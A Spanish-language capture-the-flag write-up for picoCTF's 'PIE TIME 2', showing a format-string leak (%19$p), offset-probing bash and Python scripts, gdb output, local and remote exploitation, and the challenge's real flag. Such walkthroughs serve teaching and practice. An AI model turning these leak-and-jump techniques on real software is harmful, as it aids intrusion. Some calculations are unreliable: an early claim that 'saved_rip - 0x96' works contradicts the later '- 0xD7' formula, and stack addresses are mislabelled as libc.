




# PIE TIME 2 PicoCTF (Intermediate)

## Contexto de la maquina

### Trayectoria PIE TIME 2

<figure><figcaption></figcaption></figure>

### Descripción

**PIE TIME 2** es un reto de **explotación binaria avanzada** que combina **Format String Vulnerability** con **ejecución de código arbitraria mediante punteros a función**, todo ello en un binario compilado con **PIE (Position Independent Executable)**. A diferencia de su versión anterior, el binario **no filtra directamente direcciones de memoria**, obligando a obtenerlas mediante fugas controladas desde la pila.

**Objetivo del reto**

Obtener la **flag final** forzando el flujo de ejecución del programa para saltar a la función `win()`, la cual imprime el contenido de `flag.txt`.

**Tipo de reto**

* Binary Exploitation
* Ingeniería inversa
* Format String
* Control Flow Hijacking
* PIE / ASLR bypass lógico

**Habilidades y técnicas evaluadas**

* Análisis de código fuente en C
* Explotación de Format String
* Leak de direcciones de memoria
* Análisis de pila en x86\_64
* Cálculo de offsets en binarios PIE
* Uso avanzado de `gdb`
* Explotación remota con `netcat`

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Despliegue del CTF

En la propia pagina buscaremos el `CTF`, dentro veremos un boton llamado `Launch Instance`, una ves desplegado nos aparecera `here` donde se encuentra el `dominio` junto con el puerto asociado al mismo.

El objetivo de estos `CTFs` es encontrar la `flag` final.

## Ingeniería Inversa

El reto proporciona directamente el **binario** y su **código fuente**, que podemos descargar con `wget` una vez generada la URL:

```shell
wget "http://<URL>/vuln"
wget "http://<URL>/vuln.c"
```

Primero explotaremos el binario **en local** para comprender completamente su comportamiento y, una vez validada la explotación, la replicaremos contra el **servicio remoto**.

El propio reto nos indica cómo conectarnos:

```
Can you try to get the flag? I'm not revealing anything anymore!! Connect to the program with netcat:

$ nc rescued-float.picoctf.net 52625
```

### Análisis del código fuente

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

void call_functions() {
  char buffer[64];
  printf("Enter your name:");
  fgets(buffer, 64, stdin);
  printf(buffer);

  unsigned long val;
  printf(" enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);

  void (*foo)(void) = (void (*)())val;
  foo();
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  call_functions();
  return 0;
}
```

#### Observaciones clave

**1. Format String Vulnerability (CRÍTICA)**

<figure><figcaption></figcaption></figure>

```c
printf(buffer);  // ¡VULNERABLE! buffer contiene entrada del usuario
```

**Impacto**: Permite:

* **Leak de memoria** (leer valores de la pila)
* **Escritura arbitraria** (con `%n`)
* **Bypass de ASLR/PIE**
* **Envenenamiento de GOT/PLT**

**2. Ejecución arbitraria**

```c
void (*foo)(void) = (void (*)())val;
foo();  // Ejecuta cualquier dirección
```

## Leak de direcciones con Format String

Dado que el programa **no muestra directamente la dirección de `main()`**, necesitamos obtenerla indirectamente usando la vulnerabilidad de format string.

Probamos un payload básico:

```python
# Leak direcciones de funciones
payload = b"%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p"
# Buscar dirección de main, win, etc.
```

Al ejecutarlo:

```
Enter your name:%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x55a3c199b311 0x7f63cd6177a0 0x3e664cef 0x55a3c199b33d (nil) 0x7f63cd614030 (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x7e92000a70252070 (nil) 0x7ffda97a4278
 enter the address to jump to, ex => 0x12345:
```

Buscamos direcciones que:

* Empiecen por `0x55` o `0x56` → direcciones del binario
* No pertenezcan a libc (`0x7f...`)

## Identificación del saved RIP

Para automatizar la búsqueda del `saved RIP`, utilizamos el siguiente script en **bash**, que prueba offsets del stack y detecta direcciones candidatas:

> calcMain.sh

```bash
#!/bin/bash

echo "=== Buscando offsets con direcciones del binario ==="
echo

# Array para guardar offsets prometedores
declare -a prometedores

echo "[*] Probando offsets 1-40..."
echo "    (Buscando direcciones que empiecen con 0x55 o 0x56)"
echo

for i in {1..40}; do
    # Ejecutar y capturar output
    output=$(echo -e "%$i\$p\n0x12345" | ./vuln 2>/dev/null 2>&1)
    
    # Extraer solo la dirección hexadecimal
    result=$(echo "$output" | head -n1 | grep -o "0x[0-9a-f]*")
    
    # Mostrar resultado
    if [ -n "$result" ]; then
        printf "Offset %2d: %-20s" $i "$result"
        
        # Verificar si es dirección del binario
        if [[ "$result" == 0x55* || "$result" == 0x56* ]]; then
            echo " ← ¡POSIBLE SAVED RIP!"
            prometedores+=("$i:$result")
        elif [[ "$result" == 0x7f* ]]; then
            echo " ← Dirección de libc"
        elif [ "$result" = "(nil)" ] || [ "$result" = "0x0" ]; then
            echo " ← NULL"
        else
            echo
        fi
    fi
done

echo
echo "=================================================="
echo "[+] Offsets prometedores encontrados:"

if [ ${#prometedores[@]} -eq 0 ]; then
    echo "    No se encontraron direcciones del binario"
else
    for item in "${prometedores[@]}"; do
        offset=${item%:*}
        addr=${item#*:}
        echo "    Offset $offset: $addr"
    done
    
    echo
    echo "[*] Ahora necesitamos probar cuál funciona:"
    echo "    Para cada offset, calcular win = dirección - 0x96"
    echo "    Y probar si al saltar ahí obtenemos la flag"
fi
```

Al ejecutarlo:

```shell
bash calcMain.sh
```

Resultado:

```
=== Buscando offsets con direcciones del binario ===

[*] Probando offsets 1-40...
    (Buscando direcciones que empiecen con 0x55 o 0x56)

Offset  1: 0xa702431           
Offset  2: 0x7fd0446177a0       ← Dirección de libc
Offset  3: 0xa702433           
Offset  4: 0x56299a515015       ← ¡POSIBLE SAVED RIP!
Offset  6: 0x7f7fe7014030       ← Dirección de libc
Offset  8: 0xa70243825         
Offset  9: 0x7f92e948b179       ← Dirección de libc
Offset 10: 0x7f0db30165c0       ← Dirección de libc
Offset 11: 0x7f6d76081759       ← Dirección de libc
Offset 12: 0x34000000340       
Offset 13: 0xd47b9a1b5b6cfc00  
Offset 15: 0x7fff9a866488       ← Dirección de libc
Offset 16: 0x7ffe6eb64a40       ← Dirección de libc
Offset 17: 0x6c3559b20e7a9800  
Offset 18: 0x7fffc646f1e0       ← Dirección de libc
Offset 19: 0x55e31eb39441       ← ¡POSIBLE SAVED RIP!
Offset 20: 0x1                 
Offset 21: 0x7f4912629f68       ← Dirección de libc
Offset 23: 0x562f4a08c400       ← ¡POSIBLE SAVED RIP!
Offset 24: 0x1cbc30610         
Offset 25: 0x7ffd82e854e8       ← Dirección de libc
Offset 26: 0x7ffce6bc0bc8       ← Dirección de libc
Offset 27: 0x959730f2fde6e6c5  
Offset 29: 0x7ffd5ebb3a38       ← Dirección de libc
Offset 30: 0x7f3ba4f14000       ← Dirección de libc
Offset 32: 0xe26b48896f984834  
Offset 33: 0xd0335bd114884e8e  
Offset 38: 0x7fff388dda18       ← Dirección de libc
Offset 39: 0x46321b106cd98900  

==================================================
[+] Offsets prometedores encontrados:
    Offset 4: 0x56299a515015
    Offset 19: 0x55e31eb39441
    Offset 23: 0x562f4a08c400

[*] Ahora necesitamos probar cuál funciona:
    Para cada offset, calcular win = dirección - 0x96
    Y probar si al saltar ahí obtenemos la flag
```

Tras el análisis inicial, obtenemos **tres direcciones candidatas** que podrían corresponder al `saved_rip`. Sin embargo, por los cálculos realizados y el comportamiento observado, la que resulta más prometedora es la correspondiente al **offset 19**.

```
# Offset 4: 0x56521949d015
win4 = 0x56521949d015 - 0x96 = 0x56521949cf7f
# ❌ NO funciona

# Offset 19: 0x56298bd32441  
win19 = 0x56298bd32441 - 0x96 = 0x56298bd323ab
# ✅ SÍ funciona

# Offset 23: 0x55e32b579400
win23 = 0x55e32b579400 - 0x96 = 0x55e32b57936a
# ❌ NO funciona
```

**Offset 4: `0x56521949d015`**

* Es una dirección **DENTRO** del binario
* Probablemente un **puntero a código o datos estáticos**
* NO es el **saved rip** (dirección de retorno)
* **No sirve** para calcular `win()` porque el offset `-0x96` no está calculado desde aquí

**Offset 19: `0x56298bd32441`** ✅

* Es el **saved rip** (dirección de retorno)
* Apunta **DENTRO** de `main()` (concretamente a `main+65`)
* El cálculo `saved_rip - 0x96` te lleva exactamente a `win()`
* **SÍ funciona**

**Offset 23: `0x55e32b579400`**

* Podría ser otra dirección del binario
* Quizás el **inicio de una función** o **puntero a GOT/PLT**
* NO es el saved rip
* **No sirve** para el cálculo

Dado que el **offset correcto es el 19**, podemos afirmar que `%19$p` nos filtra el `saved_rip`. A partir de este valor, ya es posible calcular la dirección de `win()` de forma fiable.

Para confirmar esto desde un punto de vista más formal, realizamos el análisis también con **GDB**.

```shell
gdb ./vuln
```

Dentro del `gdb`:

```bash
(gdb) break call_functions
(gdb) run
(gdb) info frame
# rip = 0x5555555552d3 in call_functions; saved rip = 0x555555555441
# Saved registers:
#   rbp at 0x7fffffffce70, rip at 0x7fffffffce78
(gdb) x/30gx $rsp
# Buscar dónde está 0x555555555441 en el stack
# Contamos: está en posición 19 desde $rsp (considerando registros)
```

**Análisis del Stack:**

```
saved rip = 0x555555555441  (en 0x7fffffffce78)
$rsp = 0x7fffffffce10
```

**Cálculo del offset en el stack:**

```
0x7fffffffce78 - 0x7fffffffce10 = 0x68 bytes
0x68 / 8 = 13 posiciones (cada posición son 8 bytes en x86_64)
```

**Pero en format strings es diferente:**

En x86\_64 Linux:

* Primeros 6 argumentos pasan por **registros** (no stack)
* `printf()` espera argumentos en: RDI, RSI, RDX, RCX, R8, R9
* Sólo a partir del **argumento 7** se usan posiciones del stack

**Por lo tanto:**

* Posición en stack: 13
* Posición en format string: 13 + 6 = **19**

Esto confirma de forma definitiva que el leak correcto es **`%19$p`**.

### Identificación de offsets del binario

Para calcular correctamente `win()`, necesitamos las direcciones **relativas** de las funciones dentro del binario.

<figure><figcaption></figcaption></figure>

```bash
# Obtener direcciones de main y win
gdb ./vuln -ex "disas main" -ex "disas win" -ex "quit"
```

**Salida importante:**

```
Dump of assembler code for function win:
   0x000000000000136a <+0>:	endbr64   # ← DIRECCIÓN DE win()

Dump of assembler code for function main:
   0x0000000000001400 <+0>:	endbr64   # ← DIRECCIÓN DE main()
```

> **Nota:** Estas son direcciones **relativas** (sin ASLR). En cada ejecución, el binario se carga en una dirección base diferente, pero los offsets entre funciones permanecen constantes.

#### **Entender la relación entre saved\_rip y main**

Analizando con gdb, descubrimos que:

* `saved_rip` apunta a `main+65` (0x41 en hexadecimal)
* Si `saved_rip = main + 0x41`, entonces `main = saved_rip - 0x41`

#### **Calcular el offset entre main y win**

Del análisis estático sabemos:

* `win()` comienza en `0x136a`
* `main()` comienza en `0x1400`

El offset de `main` a `win` es:

```
offset = main - win = 0x1400 - 0x136a = 0x96 bytes
```

**Importante:** `win` está **antes** que `main` en memoria, por eso restamos.

#### **Fórmula final para calcular win()**

Combinando todo:

1. `main = saved_rip - 0x41`
2. `win = main - 0x96`

Sustituyendo:

```
win = (saved_rip - 0x41) - 0x96
win = saved_rip - (0x41 + 0x96)
win = saved_rip - 0xD7
```

**¡La fórmula es: `win = saved_rip - 0xD7`!**

Para evitar errores y realizar el cálculo en tiempo real, creamos el siguiente script en **Python**, que toma directamente el valor filtrado con `%19$p` y devuelve la dirección exacta de `win()`.

> calcOffset.py

```python
#!/usr/bin/env python3

def calcular_win_correctamente():
    print("=== Cálculo CORRECTO de win() ===")
    print("Basado en el writeup: calcular offset entre main y win")
    print()
    
    # Paso 1: Obtener dirección de main (con %19$p)
    saved_rip = input("Introduce la dirección de main+65 (con %19$p): ").strip()
    saved_rip = int(saved_rip, 16) if '0x' in saved_rip else int(saved_rip, 16)
    
    print(f"\n[1] saved_rip (main+65): {hex(saved_rip)}")
    
    # Paso 2: Calcular main real (restar 65 = 0x41)
    main_addr = saved_rip - 0x41
    print(f"[2] main() inicio: {hex(main_addr)}")
    
    # Paso 3: Obtener dirección de win del binario (de tu desensamblado)
    win_binario = 0x136a  # Del disas win
    main_binario = 0x1400 # Del disas main
    
    # Paso 4: Calcular offset entre main y win en el binario
    offset_binario = main_binario - win_binario  # main está después de win
    print(f"[3] En binario: main={hex(main_binario)}, win={hex(win_binario)}")
    print(f"    offset = main - win = {hex(offset_binario)} = {offset_binario} bytes")
    
    # Paso 5: Calcular win en tiempo de ejecución
    win_addr = main_addr - offset_binario
    print(f"\n[4] Cálculo: win = main - offset")
    print(f"    win = {hex(main_addr)} - {hex(offset_binario)}")
    print(f"    win = {hex(win_addr)}")
    
    # Verificar con fórmula del writeup
    print(f"\n[5] Verificación:")
    print(f"    Según writeup: win = leaked_main - 0xD7")
    print(f"    leaked_main = {hex(saved_rip)}")
    print(f"    win = {hex(saved_rip - 0xD7)}")
    
    print(f"\n✅ Dirección de win(): {hex(win_addr)}")
    return win_addr

if __name__ == "__main__":
    win_addr = calcular_win_correctamente()
    print(f"\n📝 Usa esta dirección: {hex(win_addr)}")
```

### Explotación en local

Leak del `saved_rip`:

```shell
./vuln
```

Resultado:

```
Enter your name:%19$p
0x560376396441
 enter the address to jump to, ex => 0x12345:
```

Sabiendo que es `0x560376396441` la meteremos en nuestro script:

```shell
python3 calcOffset.py
```

Resultado:

```
=== Cálculo CORRECTO de win() ===
Basado en el writeup: calcular offset entre main y win

Introduce la dirección de main+65 (con %19$p): 0x560376396441

[1] saved_rip (main+65): 0x560376396441
[2] main() inicio: 0x560376396400
[3] En binario: main=0x1400, win=0x136a
    offset = main - win = 0x96 = 150 bytes

[4] Cálculo: win = main - offset
    win = 0x560376396400 - 0x96
    win = 0x56037639636a

[5] Verificación:
    Según writeup: win = leaked_main - 0xD7
    leaked_main = 0x560376396441
    win = 0x56037639636a

✅ Dirección de win(): 0x56037639636a

📝 Usa esta dirección: 0x56037639636a
```

Y veremos que deberia de ser `0x56037639636a`, por lo que introducimos la dirección calculada:

```
enter the address to jump to, ex => 0x12345: 0x56037639636a
You won!
CTF{this_is_a_test_flag_2}
```

La explotación funciona correctamente en local, ahora probemos con el binario del servidor.

## Explotación real del reto (Flag)

```shell
nc rescued-float.picoctf.net 52625
```

Meteremos el `payload` `%19$p` directamente para saber el valor que meteremos en el script.

```
Enter your name:%19$p          
0x612135e47441
 enter the address to jump to, ex => 0x12345:
```

Sabemos que tiene que ser `0x612135e47441`, ahora ejecutamos el script de nuevo.

```shell
python3 calcOffset.py
```

Metemos la direccion de memoria obtenida `0x612135e47441`...

```
=== Cálculo CORRECTO de win() ===
Basado en el writeup: calcular offset entre main y win

Introduce la dirección de main+65 (con %19$p): 0x612135e47441

[1] saved_rip (main+65): 0x612135e47441
[2] main() inicio: 0x612135e47400
[3] En binario: main=0x1400, win=0x136a
    offset = main - win = 0x96 = 150 bytes

[4] Cálculo: win = main - offset
    win = 0x612135e47400 - 0x96
    win = 0x612135e4736a

[5] Verificación:
    Según writeup: win = leaked_main - 0xD7
    leaked_main = 0x612135e47441
    win = 0x612135e4736a

✅ Dirección de win(): 0x612135e4736a

📝 Usa esta dirección: 0x612135e4736a
```

Ahora sabiendo que es `0x612135e4736a`, lo meteremos en el binario y tendremos que ver lo siguiente:

```
enter the address to jump to, ex => 0x12345: 0x612135e4736a
You won!
picoCTF{p13_5h0u1dn'7_134k_9d4030a3}
```

Veremos que ha funcionado, con esto obtendremos la `flag` de forma correcta.

Con esto queda demostrada una explotación completamente fiable combinando **Format String Vulnerability**, **leak del saved RIP**, y **cálculo dinámico de offsets**, incluso con **PIE y ASLR habilitados**, manteniendo control total del flujo de ejecución.

> flag.txt

```
picoCTF{p13_5h0u1dn'7_134k_9d4030a3}
```
